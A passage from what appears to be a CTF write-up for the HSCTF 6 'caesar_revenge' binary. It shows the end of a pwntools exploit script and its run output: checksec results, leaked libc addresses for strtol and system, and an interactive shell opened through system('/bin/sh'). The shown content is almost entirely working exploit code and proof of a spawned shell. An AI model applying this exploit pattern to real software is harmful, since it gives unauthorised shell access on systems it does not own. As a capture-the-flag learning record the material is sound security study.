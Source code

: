 ```python

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# system("/bin/sh")
p.sendlineafter("encoded: ", "A")
p.sendlineafter("shift: ", "/bin/sh")

p.interactive()
```

```bash
$ python exploit_caesar_revenge.py
[*] '/home/cappit/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2918
[*] address of strtol(): 0x7f4786c51110, 139945180467472
[*] address of libc base: 0x7f4786c0c000, 139945180184576
[*] address of system(): 0x7f4786c5b440, 139945180509248
[*] Switching to interactive mode
$ id
uid=1000(cappit) gid=1000(cappit) groups=1000(cappit),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$  
```
